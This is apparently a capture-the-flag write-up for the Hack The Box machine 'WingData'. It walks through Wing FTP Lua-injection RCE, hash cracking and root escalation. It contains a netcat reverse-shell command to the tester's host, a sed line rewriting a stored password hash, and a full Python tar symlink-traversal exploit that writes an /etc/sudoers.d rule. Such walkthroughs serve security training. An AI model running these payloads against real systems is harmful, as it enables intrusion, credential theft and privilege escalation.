


## Executive Summary 
This report documents the successful penetration test of the WingData HTB machineIidentified critical vulnerabilities that allowed for complete system compromise, from initial access through privilege escalation to root.
Vulnerability Summary 

**Target:** WingData (HTB)  
**Tester:** wacky  
**Date:** 2026  
**Difficulty:** Easy
**Result:** Full System Compromise (Root)

|                                       |                              |          |                      |
| ------------------------------------- | ---------------------------- | -------- | -------------------- |
| Vulnerability                         | CVE                          | Severity | Impact               |
| Wing FTP NULL Byte + Lua Injection    | CVE-2025-47812               | CRITICAL | RCE                  |
| Python tarfile Symlink Path Traversal | CVE-2025-4138, CVE-2025-4517 | CRITICAL | Privilege Escalation |
## Initial Reconnaissance
### Port Scanning

```bash
sudo nmap -sC -sV -Pn -p- 10.129.6.52 -A -vv

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 a1:fa:95:8b:d7:56:03:85:e4:45:c9:c7:1e:ba:28:3b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBL+8LZAmzRfTy+4t8PJxEvRWhPho8aZj9ImxRfWn9TKepkxh8pAF3WDu55pd/gaSUGIo9cuOvv+3r6w7IuCpqI4=
|   256 9c:ba:21:1a:97:2f:3a:64:73:c1:4c:1d:ce:65:7a:2f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFFmcxflCAAe4LPgkg7hOxJen41bu6zaE/y08UnA4oRp
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.66
|_http-server-header: Apache/2.4.66 (Debian)
|_http-title: Did not follow redirect to http://wingdata.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```
**Key Services Identified**
SSH (22) – OpenSSH 9.2p1
HTTP (80) – Apache 2.4.66

## Web Enumeration

```bash
┌──(penguin㉿0X0F)-[~/CPTS/Machines/S10/WIngData]
└─$ whatweb http://wingdata.htb

http://wingdata.htb [200 OK] Apache[2.4.66], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.66 (Debian)], IP[10.129.6.52], JQuery, Script, Title[WingData Solutions]
```


```bash
gobuster dir \
  -u http://wingdata.htb \
  -w /usr/share/seclists/Discovery/Web-Content/common.txt \
  -t 30

===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://wingdata.htb
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.hta                 (Status: 403) [Size: 317]
.htaccess            (Status: 403) [Size: 317]
.htpasswd            (Status: 403) [Size: 317]
assets               (Status: 301) [Size: 353] [--> http://wingdata.htb/assets/]
index.html           (Status: 200) [Size: 12492]
server-status        (Status: 403) [Size: 317]
vendor               (Status: 301) [Size: 353] [--> http://wingdata.htb/vendor/]
Progress: 4746 / 4746 (100.00%)
===============================================================
Finished
===============================================================
```
Discovered directories:
- `/assets`
- `/vendor`
### Virtual Host Discovery
```bash
ffuf -u http://10.129.6.52 \
  -H "Host: FUZZ.wingdata.htb" \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
  -fs 348-370
  
  _______________________________________________

 :: Method           : GET
 :: URL              : http://10.129.6.52
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.wingdata.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 348-370
________________________________________________

ftp                     [Status: 200, Size: 678, Words: 44, Lines: 10, Duration: 52ms]
chelyabinsk-rnoc-rr02.backbone [Status: 301, Size: 377, Words: 21, Lines: 10, Duration: 29ms]
:: Progress: [4989/4989] :: Job [1/1] :: 1136 req/sec :: Duration: [0:00:05] :: Errors: 0 ::

```

**Discovered Subdomain**
- `ftp.wingdata.htb`



### Initial Access – Wing FTP Server Exploitation

The `ftp.wingdata.htb` host exposed a web login interface for **Wing FTP Server**, vulnerable to **CVE‑2025‑47812**, a NULL byte injection combined with Lua code execution.

#### Proof of Command Execution

```bash 
penguin㉿0X0F)-[~/CPTS/Machines/S10/WIngData]
└─$ python3 52347.py -u http://ftp.wingdata.htb -c "pwd"   

[*] Testing target: http://ftp.wingdata.htb
[+] Sending POST request to http://ftp.wingdata.htb/loginok.html with command: 'pwd' and username: 'anonymous'                                                                                                        
[+] UID extracted: 8fd7d9ddf0d6438507c418a1f1fc434af528764d624db129b32c21fbca0cb8d6
[+] Sending GET request to http://ftp.wingdata.htb/dir.html with UID: 8fd7d9ddf0d6438507c418a1f1fc434af528764d624db129b32c21fbca0cb8d6                                                                                
--- Command Output ---                                                                                  
/opt/wftpserver 
----------------------  

```

#### Credential Extraction From the RCE 

```bash
(penguin㉿0X0F)-[~/CPTS/Machines/S10/WIngData]
└─$ python3 52347.py -u http://ftp.wingdata.htb -c "base64 /opt/wftpserver/Data/1/users/wacky.xml"

[*] Testing target: http://ftp.wingdata.htb
[+] Sending POST request to http://ftp.wingdata.htb/loginok.html with command: 'base64 /opt/wftpserver/Data/1/users/wacky.xml' and username: 'anonymous'                                                              
[+] UID extracted: 2e9ce30b80a47443f2a610c8ead7d573f528764d624db129b32c21fbca0cb8d6
[+] Sending GET request to http://ftp.wingdata.htb/dir.html with UID: 2e9ce30b80a47443f2a610c8ead7d573f528764d624db129b32c21fbca0cb8d6                                                                                

--- Command Output ---                                                                                     
PD94bWwgdmVyc2lvbj0iMS4wIiA/Pgo8VVNFUl9BQ0NPVU5UUyBEZXNjcmlwdGlvbj0iV2luZyBG
VFAgU2VydmVyIFVzZXIgQWNjb3VudHMiPgogICAgPFVTRVI+CiAgICAgICAgPFVzZXJOYW1lPndh
Y2t5PC9Vc2VyTmFtZT4KICAgICAgICA8RW5hYmxlQWNjb3VudD4xPC9FbmFibGVBY2NvdW50Pgog
ICAgICAgIDxFbmFibGVQYXNzd29yZD4xPC9FbmFibGVQYXNzd29yZD4KICAgICAgICA8UGFzc3dv
cmQ+MzI5NDBkZWZkM2MzZWY3MGEyZGQ0NGE1MzAxZmY5ODRjNDc0MmYwYmFhZTc2ZmY1Yjg3ODM5
OTRmOGE1MDNjYTwvUGFzc3dvcmQ+CiAgICAgICAgPFByb3RvY29sVHlwZT42MzwvUHJvdG9jb2xU
eXBlPgogICAgICAgIDxFbmFibGVFeHBpcmU+MDwvRW5hYmxlRXhwaXJlPgogICAgICAgIDxFeHBp
cmVUaW1lPjIwMjUtMTItMDIgMTI6MDI6NDY8L0V4cGlyZVRpbWU+CiAgICAgICAgPE1heERvd25s
b2FkU3BlZWRQZXJTZXNzaW9uPjA8L01heERvd25sb2FkU3BlZWRQZXJTZXNzaW9uPgogICAgICAg
IDxNYXhVcGxvYWRTcGVlZFBlclNlc3Npb24+MDwvTWF4VXBsb2FkU3BlZWRQZXJTZXNzaW9uPgog
ICAgICAgIDxNYXhEb3dubG9hZFNwZWVkUGVyVXNlcj4wPC9NYXhEb3dubG9hZFNwZWVkUGVyVXNl
cj4KICAgICAgICA8TWF4VXBsb2FkU3BlZWRQZXJVc2VyPjA8L01heFVwbG9hZFNwZWVkUGVyVXNl
cj4KICAgICAgICA8U2Vzc2lvbk5vQ29tbWFuZFRpbWVPdXQ+NTwvU2Vzc2lvbk5vQ29tbWFuZFRp
bWVPdXQ+CiAgICAgICAgPFNlc3Npb25Ob1RyYW5zZmVyVGltZU91dD41PC9TZXNzaW9uTm9UcmFu
c2ZlclRpbWVPdXQ+CiAgICAgICAgPE1heENvbm5lY3Rpb24+MDwvTWF4Q29ubmVjdGlvbj4KICAg
ICAgICA8Q29ubmVjdGlvblBlcklwPjA8L0Nvbm5lY3Rpb25QZXJJcD4KICAgICAgICA8UGFzc3dv
cmRMZW5ndGg+MDwvUGFzc3dvcmRMZW5ndGg+CiAgICAgICAgPFNob3dIaWRkZW5GaWxlPjA8L1No
b3dIaWRkZW5GaWxlPgogICAgICAgIDxDYW5DaGFuZ2VQYXNzd29yZD4wPC9DYW5DaGFuZ2VQYXNz
d29yZD4KICAgICAgICA8Q2FuU2VuZE1lc3NhZ2VUb1NlcnZlcj4wPC9DYW5TZW5kTWVzc2FnZVRv
U2VydmVyPgogICAgICAgIDxFbmFibGVTU0hQdWJsaWNLZXlBdXRoPjA8L0VuYWJsZVNTSFB1Ymxp
Y0tleUF1dGg+CiAgICAgICAgPFNTSFB1YmxpY0tleVBhdGg+PC9TU0hQdWJsaWNLZXlQYXRoPgog
ICAgICAgIDxTU0hBdXRoTWV0aG9kPjA8L1NTSEF1dGhNZXRob2Q+CiAgICAgICAgPEVuYWJsZVdl
Ymxpbms+MTwvRW5hYmxlV2VibGluaz4KICAgICAgICA8RW5hYmxlVXBsaW5rPjE8L0VuYWJsZVVw
bGluaz4KICAgICAgICA8RW5hYmxlVHdvRmFjdG9yPjA8L0VuYWJsZVR3b0ZhY3Rvcj4KICAgICAg
ICA8VHdvRmFjdG9yQ29kZT48L1R3b0ZhY3RvckNvZGU+CiAgICAgICAgPEV4dHJhSW5mbz48L0V4
dHJhSW5mbz4KICAgICAgICA8Q3VycmVudENyZWRpdD4wPC9DdXJyZW50Q3JlZGl0PgogICAgICAg
IDxSYXRpb0Rvd25sb2FkPjE8L1JhdGlvRG93bmxvYWQ+CiAgICAgICAgPFJhdGlvVXBsb2FkPjE8
L1JhdGlvVXBsb2FkPgogICAgICAgIDxSYXRpb0NvdW50TWV0aG9kPjA8L1JhdGlvQ291bnRNZXRo
b2Q+CiAgICAgICAgPEVuYWJsZVJhdGlvPjA8L0VuYWJsZVJhdGlvPgogICAgICAgIDxNYXhRdW90
YT4wPC9NYXhRdW90YT4KICAgICAgICA8Q3VycmVudFF1b3RhPjA8L0N1cnJlbnRRdW90YT4KICAg
ICAgICA8RW5hYmxlUXVvdGE+MDwvRW5hYmxlUXVvdGE+CiAgICAgICAgPE5vdGVzTmFtZT48L05v
dGVzTmFtZT4KICAgICAgICA8Tm90ZXNBZGRyZXNzPjwvTm90ZXNBZGRyZXNzPgogICAgICAgIDxO
b3Rlc1ppcENvZGU+PC9Ob3Rlc1ppcENvZGU+CiAgICAgICAgPE5vdGVzUGhvbmU+PC9Ob3Rlc1Bo
b25lPgogICAgICAgIDxOb3Rlc0ZheD48L05vdGVzRmF4PgogICAgICAgIDxOb3Rlc0VtYWlsPjwv
Tm90ZXNFbWFpbD4KICAgICAgICA8Tm90ZXNNZW1vPjwvTm90ZXNNZW1vPgogICAgICAgIDxFbmFi
bGVVcGxvYWRMaW1pdD4wPC9FbmFibGVVcGxvYWRMaW1pdD4KICAgICAgICA8Q3VyTGltaXRVcGxv
YWRTaXplPjA8L0N1ckxpbWl0VXBsb2FkU2l6ZT4KICAgICAgICA8TWF4TGltaXRVcGxvYWRTaXpl
PjA8L01heExpbWl0VXBsb2FkU2l6ZT4KICAgICAgICA8RW5hYmxlRG93bmxvYWRMaW1pdD4wPC9F
bmFibGVEb3dubG9hZExpbWl0PgogICAgICAgIDxDdXJMaW1pdERvd25sb2FkTGltaXQ+MDwvQ3Vy
TGltaXREb3dubG9hZExpbWl0PgogICAgICAgIDxNYXhMaW1pdERvd25sb2FkTGltaXQ+MDwvTWF4
TGltaXREb3dubG9hZExpbWl0PgogICAgICAgIDxMaW1pdFJlc2V0VHlwZT4wPC9MaW1pdFJlc2V0
VHlwZT4KICAgICAgICA8TGltaXRSZXNldFRpbWU+MTc2MjEwMzA4OTwvTGltaXRSZXNldFRpbWU+
CiAgICAgICAgPFRvdGFsUmVjZWl2ZWRCeXRlcz4wPC9Ub3RhbFJlY2VpdmVkQnl0ZXM+CiAgICAg
ICAgPFRvdGFsU2VudEJ5dGVzPjA8L1RvdGFsU2VudEJ5dGVzPgogICAgICAgIDxMb2dpbkNvdW50
PjI8L0xvZ2luQ291bnQ+CiAgICAgICAgPEZpbGVEb3dubG9hZD4wPC9GaWxlRG93bmxvYWQ+CiAg
ICAgICAgPEZpbGVVcGxvYWQ+MDwvRmlsZVVwbG9hZD4KICAgICAgICA8RmFpbGVkRG93bmxvYWQ+
MDwvRmFpbGVkRG93bmxvYWQ+CiAgICAgICAgPEZhaWxlZFVwbG9hZD4wPC9GYWlsZWRVcGxvYWQ+
CiAgICAgICAgPExhc3RMb2dpbklwPjEyNy4wLjAuMTwvTGFzdExvZ2luSXA+CiAgICAgICAgPExh
c3RMb2dpblRpbWU+MjAyNS0xMS0wMiAxMjoyODo1MjwvTGFzdExvZ2luVGltZT4KICAgICAgICA8
RW5hYmxlU2NoZWR1bGU+MDwvRW5hYmxlU2NoZWR1bGU+CiAgICA8L1VTRVI+CjwvVVNFUl9BQ0NP
VU5UUz4K
```

**Decoding the base64** 
```bash
----------------------
┌──(penguin㉿0X0F)-[~/CPTS/Machines/S10/WIngData]
└─$ >....                                                                                                  
L1JhdGlvVXBsb2FkPgogICAgICAgIDxSYXRpb0NvdW50TWV0aG9kPjA8L1JhdGlvQ291bnRNZXRo
b2Q+CiAgICAgICAgPEVuYWJsZVJhdGlvPjA8L0VuYWJsZVJhdGlvPgogICAgICAgIDxNYXhRdW90
YT4wPC9NYXhRdW90YT4KICAgICAgICA8Q3VycmVudFF1b3RhPjA8L0N1cnJlbnRRdW90YT4KICAg
ICAgICA8RW5hYmxlUXVvdGE+MDwvRW5hYmxlUXVvdGE+CiAgICAgICAgPE5vdGVzTmFtZT48L05v
dGVzTmFtZT4KICAgICAgICA8Tm90ZXNBZGRyZXNzPjwvTm90ZXNBZGRyZXNzPgogICAgICAgIDxO
b3Rlc1ppcENvZGU+PC9Ob3Rlc1ppcENvZGU+CiAgICAgICAgPE5vdGVzUGhvbmU+PC9Ob3Rlc1Bo
b25lPgogICAgICAgIDxOb3Rlc0ZheD48L05vdGVzRmF4PgogICAgICAgIDxOb3Rlc0VtYWlsPjwv
Tm90ZXNFbWFpbD4KICAgICAgICA8Tm90ZXNNZW1vPjwvTm90ZXNNZW1vPgogICAgICAgIDxFbmFi
bGVVcGxvYWRMaW1pdD4wPC9FbmFibGVVcGxvYWRMaW1pdD4KICAgICAgICA8Q3VyTGltaXRVcGxv
YWRTaXplPjA8L0N1ckxpbWl0VXBsb2FkU2l6ZT4KICAgICAgICA8TWF4TGltaXRVcGxvYWRTaXpl
PjA8L01heExpbWl0VXBsb2FkU2l6ZT4KICAgICAgICA8RW5hYmxlRG93bmxvYWRMaW1pdD4wPC9F
bmFibGVEb3dubG9hZExpbWl0PgogICAgICAgIDxDdXJMaW1pdERvd25sb2FkTGltaXQ+MDwvQ3Vy
TGltaXREb3dubG9hZExpbWl0PgogICAgICAgIDxNYXhMaW1pdERvd25sb2FkTGltaXQ+MDwvTWF4
TGltaXREb3dubG9hZExpbWl0PgogICAgICAgIDxMaW1pdFJlc2V0VHlwZT4wPC9MaW1pdFJlc2V0
VHlwZT4KICAgICAgICA8TGltaXRSZXNldFRpbWU+MTc2MjEwMzA4OTwvTGltaXRSZXNldFRpbWU+
CiAgICAgICAgPFRvdGFsUmVjZWl2ZWRCeXRlcz4wPC9Ub3RhbFJlY2VpdmVkQnl0ZXM+CiAgICAg
ICAgPFRvdGFsU2VudEJ5dGVzPjA8L1RvdGFsU2VudEJ5dGVzPgogICAgICAgIDxMb2dpbkNvdW50
PjI8L0xvZ2luQ291bnQ+CiAgICAgICAgPEZpbGVEb3dubG9hZD4wPC9GaWxlRG93bmxvYWQ+CiAg
ICAgICAgPEZpbGVVcGxvYWQ+MDwvRmlsZVVwbG9hZD4KICAgICAgICA8RmFpbGVkRG93bmxvYWQ+
MDwvRmFpbGVkRG93bmxvYWQ+CiAgICAgICAgPEZhaWxlZFVwbG9hZD4wPC9GYWlsZWRVcGxvYWQ+
CiAgICAgICAgPExhc3RMb2dpbklwPjEyNy4wLjAuMTwvTGFzdExvZ2luSXA+CiAgICAgICAgPExh
c3RMb2dpblRpbWU+MjAyNS0xMS0wMiAxMjoyODo1MjwvTGFzdExvZ2luVGltZT4KICAgICAgICA8
RW5hYmxlU2NoZWR1bGU+MDwvRW5hYmxlU2NoZWR1bGU+CiAgICA8L1VTRVI+CjwvVVNFUl9BQ0NP
VU5UUz4K" | base64 -d
<?xml version="1.0" ?>
<USER_ACCOUNTS Description="Wing FTP Server User Accounts">
    <USER>
        <UserName>wacky</UserName>
        <EnableAccount>1</EnableAccount>
        <EnablePassword>1</EnablePassword>
        <Password>32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca</Password>
        <ProtocolType>63</ProtocolType>
        <EnableExpire>0</EnableExpire>
        <ExpireTime>2025-12-02 12:02:46</ExpireTime>
        <MaxDownloadSpeedPerSession>0</MaxDownloadSpeedPerSession>
        <MaxUploadSpeedPerSession>0</MaxUploadSpeedPerSession>
        <MaxDownloadSpeedPerUser>0</MaxDownloadSpeedPerUser>
        <MaxUploadSpeedPerUser>0</MaxUploadSpeedPerUser>
        <SessionNoCommandTimeOut>5</SessionNoCommandTimeOut>
        <SessionNoTransferTimeOut>5</SessionNoTransferTimeOut>
        <MaxConnection>0</MaxConnection>
        <ConnectionPerIp>0</ConnectionPerIp>
        <PasswordLength>0</PasswordLength>
        <ShowHiddenFile>0</ShowHiddenFile>
        <CanChangePassword>0</CanChangePassword>
        <CanSendMessageToServer>0</CanSendMessageToServer>
        <EnableSSHPublicKeyAuth>0</EnableSSHPublicKeyAuth>
        <SSHPublicKeyPath></SSHPublicKeyPath>
        <SSHAuthMethod>0</SSHAuthMethod>
        <EnableWeblink>1</EnableWeblink>
        <EnableUplink>1</EnableUplink>
        <EnableTwoFactor>0</EnableTwoFactor>
        <TwoFactorCode></TwoFactorCode>
        <ExtraInfo></ExtraInfo>
        <CurrentCredit>0</CurrentCredit>
        <RatioDownload>1</RatioDownload>
        <RatioUpload>1</RatioUpload>
        <RatioCountMethod>0</RatioCountMethod>
        <EnableRatio>0</EnableRatio>
        <MaxQuota>0</MaxQuota>
        <CurrentQuota>0</CurrentQuota>
        <EnableQuota>0</EnableQuota>
        <NotesName></NotesName>
        <NotesAddress></NotesAddress>
        <NotesZipCode></NotesZipCode>
        <NotesPhone></NotesPhone>
        <NotesFax></NotesFax>
        <NotesEmail></NotesEmail>
        <NotesMemo></NotesMemo>
        <EnableUploadLimit>0</EnableUploadLimit>
        <CurLimitUploadSize>0</CurLimitUploadSize>
        <MaxLimitUploadSize>0</MaxLimitUploadSize>
        <EnableDownloadLimit>0</EnableDownloadLimit>
        <CurLimitDownloadLimit>0</CurLimitDownloadLimit>
        <MaxLimitDownloadLimit>0</MaxLimitDownloadLimit>
        <LimitResetType>0</LimitResetType>
        <LimitResetTime>1762103089</LimitResetTime>
        <TotalReceivedBytes>0</TotalReceivedBytes>
        <TotalSentBytes>0</TotalSentBytes>
        <LoginCount>2</LoginCount>
        <FileDownload>0</FileDownload>
        <FileUpload>0</FileUpload>
        <FailedDownload>0</FailedDownload>
        <FailedUpload>0</FailedUpload>
        <LastLoginIp>127.0.0.1</LastLoginIp>
        <LastLoginTime>2025-11-02 12:28:52</LastLoginTime>
        <EnableSchedule>0</EnableSchedule>
    </USER>
</USER_ACCOUNTS>
```

Before cracking the hash lets try to change password since we have the write authority over the **.xml** 
```bash
python3 52347.py -u http://ftp.wingdata.htb -c \
"sed -i 's|<Password>.*</Password>|<Password>026fa0e9caba007703a5742590a0b566b02566221cf76a90de2c55812277a7ca</Password>|' /opt/wftpserver/Data/1/users/wacky.xml"

```

On further inspection i found that we have no privileges over any functionality on the website 


**OR we can use the reverse shell to access and grab the hash**

```bash
python3 CVE-2025-47812.py -u http://ftp.wingdata.htb -c "nc 10.10.16.148 4444 -e /bin/bash"
```
After gaining the shell we can improve the stability of shell by importing python shell
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
#### Password Cracking

Salting configuration:
```bash
<EnablePasswordSalting>1</EnablePasswordSalting>
<SaltingString>WingFTP</SaltingString>
<EnableSHA256>1</EnableSHA256>
```

**Cracking with Hashcat**
```bash
hashcat -m 1400 hash.txt rockyou.txt -r salt_pre.rule

32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca:!#7Blushing^*Bride5
```
 **Recovered Credentials**
```yaml
 wacky : !#7Blushing^*Bride5
 ```

 We can use the given credential to login to **SSH**

```bash
wacky@wingdata:~$ cat user.txt 
b595d83f7927a3f29eb5eab1ed5763d1
wacky@wingdata:~$ 
```

## Privilege Escalation

#### Local Enumeration
```bash
wacky@wingdata:/tmp$ id
uid=1001(wacky) gid=1001(wacky) groups=1001(wacky)
```

```bash
wacky@wingdata:/tmp$ whoami
wacky
wacky@wingdata:/tmp$ uname -a
Linux wingdata 6.1.0-42-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.159-1 (2025-12-30) x86_64 GNU/Linux
```


```bash
wacky@wingdata:/tmp$ sudo -l
Matching Defaults entries for wacky on wingdata:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User wacky may run the following commands on wingdata:
    (root) NOPASSWD: /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py *
```


### Vulnerable Backup Restoration Script
So wacky can run that Python script as root with arbitrary arguments. The restore script validates filenames/tags with regex but does not safely handle symlink entries inside tar archives (the tar extraction follows symlinks or extracts into a location determined by the archive), which allowed an attacker to craft an archive that writes to /etc/sudoers.d/.

```bash
cat /opt/backup_clients/restore_backup_clients.py
....
def validate_backup_name(filename):
    if not re.fullmatch(r"^backup_\d+\.tar$", filename):
        return False
    client_id = filename.split('_')[1].rstrip('.tar')
    return client_id.isdigit() and client_id != "0"

def validate_restore_tag(tag):
    return bool(re.fullmatch(r"^[a-zA-Z0-9_]{1,24}$", tag))
....
```
#### Exploit: `poc.py`
On Linux systems, privilege escalation through `sudo` is governed by configuration files that define which users are permitted to execute commands with elevated privileges. These permissions are centrally managed and enforced by the `sudo` subsystem.
The `sudo` utility reads authorization rules from:
- `/etc/sudoers` (primary configuration file)
- `/etc/sudoers.d/` (included configuration directory)

All files located in `/etc/sudoers.d/` are **automatically parsed and enforced** by `sudo` at runtime. This design allows modular management of sudo policies without directly modifying the main configuration file.


```bash
#!/usr/bin/env python3
import tarfile
import io

# Create a tar file
tar_path = "manual_exploit_v2.tar"

with tarfile.open(tar_path, "w") as tar:
    
    # Step 1: Create a symlink chain that's extremely long
    long_path = "A" * 100
    chain = "/".join([long_path for _ in range(50)])
    
    # Calculate relative path - go up from the deep nested AAAA directories + 3 more for the base path
    levels_up = 50 + 3  # 50 levels of AAAA + 3 for /opt/backup_clients/restored_backups/
    relative_escape = "../" * levels_up + "etc/sudoers.d"
    
    symlink_path = chain + "/escape"
    
    # Create TarInfo for the symlink with RELATIVE path
    symlink_info = tarfile.TarInfo(name=symlink_path)
    symlink_info.type = tarfile.SYMTYPE
    symlink_info.linkname = relative_escape  # Relative path instead of absolute
    
    # Add symlink to tar
    tar.addfile(symlink_info)
    
    # Step 2: Create the payload file
    payload = b"wacky ALL=(ALL) NOPASSWD:ALL\n"
    
    # Create TarInfo for the payload
    payload_path = chain + "/escape/pwned"
    payload_info = tarfile.TarInfo(name=payload_path)
    payload_info.size = len(payload)
    payload_info.mode = 0o440
    
    # Add payload to tar
    tar.addfile(payload_info, io.BytesIO(payload))

print(f"[+] Created {tar_path}")
print(f"[+] Using RELATIVE path escape: {relative_escape[:100]}...")
print(f"[+] When extracted with filter='data', this will write to /etc/sudoers.d/pwned")
```

 **Reference:**  
[DesertDemons – CVE-2025-4138 & CVE-2025-4517 Proof of Concept](https://github.com/DesertDemons/CVE-2025-4138-4517-POC?tab=readme-ov-file#vulnerability-details)

This proof of concept demonstrates how a malicious tar archive can exploit unsafe extraction logic to write an arbitrary file into `/etc/sudoers.d`, resulting in full root privilege escalation.
 
1.**Create a deeply nested directory structure**  
The archive contains a long chain of nested directories to precisely control how many directory levels must be traversed upward during extraction.

2.**Insert a symbolic link with a relative escape path**  
A symlink named `escape` is created at the deepest level, pointing via `../../..` traversal to `/etc/sudoers.d`.  
The backup script does not validate symlink targets.

3.**Write a file through the symlink**  
A file named `pwned` is placed inside the symlink path.  
During extraction as root, the operating system resolves the symlink and writes the file to `/etc/sudoers.d/pwned`

4.**Drop a valid sudoers rule**  
The file contains `wacky ALL=(ALL) NOPASSWD:ALL` with correct permissions (`0440`), making it immediately trusted by `sudo`.

5.**Gain root access**  
The user can now execute `sudo su -` without a password, resulting in full root privileges.


```bash
wacky@wingdata:~$ ./poc.py 
[+] Created manual_exploit_v2.tar
[+] Using RELATIVE path escape: ../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../....
[+] When extracted with filter='data', this will write to /etc/sudoers.d/pwned
wacky@wingdata:~$ cp manual_exploit_v2.tar /opt/backup_clients/backups/backup_9997.tar
wacky@wingdata:~$ sudo /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py -b backup_9997.tar -r restore_test_v2
```

Verifying the file been created
```bash
wacky@wingdata:~$ sudo cat /etc/sudoers.d/pwned
wacky ALL=(ALL) NOPASSWD:ALL
```
Capturing the Root Flag
```bash
wacky@wingdata:~$ sudo su -
root@wingdata:~# ls
root.txt
root@wingdata:~# cat root.txt 
29e3fd43e193d819de5bca4c1ad03044
root@wingdata:~# 

```

